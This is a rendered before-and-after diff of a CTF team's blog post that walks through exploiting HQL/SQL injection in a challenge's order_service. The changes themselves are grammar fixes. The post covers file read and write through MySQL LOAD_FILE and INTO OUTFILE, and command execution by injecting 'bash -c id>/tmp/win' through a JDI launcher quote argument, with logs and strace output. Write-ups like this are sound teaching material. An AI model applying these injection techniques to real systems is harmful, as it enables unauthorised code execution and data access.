

Before and after one commit to valgrindCTF/website, a Markdown page: src/posts/hqli-me.md, 3 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/src/posts/hqli-me.md
+++ b/src/posts/hqli-me.md
@@ -69,18 +70,18 @@ Similarly, `authn_service` is also susceptible to SQL injection.
 var sql = "select s from Session s where s.sessionId = \"%s\"".formatted(sessionId);
 ```
 
-`authn_service` does no validation itself on the input. This endpoint is used by `order_service`, but in this case it correctly validates our input, so we can't exploit this injection indirectly via `order_service`.
+`authn_service` does no validation itself on the input. This endpoint is used by `order_service`, but in this case, it correctly validates our input, so we can't exploit this injection indirectly via `order_service`.
 
 ---
 
 ## 4. Exploiting SQLi in order_service
 
-We're going to exploit the SQLi in order_service in two different ways:
+We're going to exploit the SQLi in the `order_service` in two different ways:
 
 - File write/file read in the mysql container,
-- Code execution in the order_service container.
+- Code execution in the `order_service` container.
 
-### File Write/File Read in the mysql Container,
+### File Write/File Read in the mysql Container
 
 For this one, we're going to use the [sql()](https://docs.jboss.org/hibernate/orm/6.4/querylanguage/html_single/Hibernate_Query_Language.html#function-sql) method to embed native SQL in HQL, allowing us to call `LOAD_FILE` and `SELECT ... INTO OUTFILE ...` from mysql and end the statement early with a comment.
 The mysql server has [secure_file_priv](https://dev.mysql.com/doc/refman/8.4/en/server-system-variables.html#sysvar_secure_file_priv) set to `/var/lib/mysql-files/`.
@@ -164,10 +165,7 @@ Sadly, whatever we put will be appended with `/bin/${exe}`. The value of `exe` c
 String exe = argument(ARG_VM_EXEC, arguments).value();
 ```
 
-Which, as was noted in the docs, we can't set. But it's not lost yet!
-Going deeper, [tokenizeCommand](https://github.com/openjdk/jdk21/blob/890adb6410dab4606a4f26a942aed02fb2f55387/src/jdk.jdi/share/classes/com/sun/tools/jdi/AbstractLauncher.java#L70)
-
-The command is tokenized respecting a quote character that we control.
+Which, as was noted in the docs, we can't set. But it's not over yet! Going deeper, [tokenizeCommand](https://github.com/openjdk/jdk21/blob/890adb6410dab4606a4f26a942aed02fb2f55387/src/jdk.jdi/share/classes/com/sun/tools/jdi/AbstractLauncher.java#L70) tokenizes the command respecting a quote character that we control.
 
 ```java
 String quote = argument(ARG_QUOTE, arguments).value();
@@ -191,13 +189,13 @@ Let's check the logs:
 order_service-1  | Caused by: com.sun.jdi.connect.VMStartException: VM initialization failed for: bash -c id>/tmp/win /bin/java -Xdebug -Xrunjdwp:transport=dt_socket,address=localhost:41925,suspend=y,includevirtualthreads=n asdf 5
 ```
 
-Let's check output of strace:
+Let's check the output of strace:
 
 ```
 [pid   150] execve("/usr/bin/bash", ["bash", "-c", "id>/tmp/win", "/bin/java", "-Xdebug", "-Xrunjdwp:transport=dt_socket,address=localhost:41925,suspend=y,includevirtualthreads=n", "asdf", "5"], ["HOSTNAME=kali", "LANGUAGE=en_US:en", "JAVA_HOME=/opt/java/openjdk", "PWD=/app", "PORT=1337", "HOME=/nonexistent", "LANG=en_US.UTF-8", "JRE_CACERTS_PATH=/opt/java/openjdk/lib/security/cacerts", "SHLVL=0", "LC_ALL=en_US.UTF-8", "PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", "JAVA_VERSION=jdk-21.0.8+9"]) = 0
 ```
 
-Let's check file system:
+Let's check the file system:
 
 ```
 nobody@kali:/app$ cat /tmp/win
````
Also changed, not shown: other parts of src/posts/hqli-me.md (+15 -14 lines).
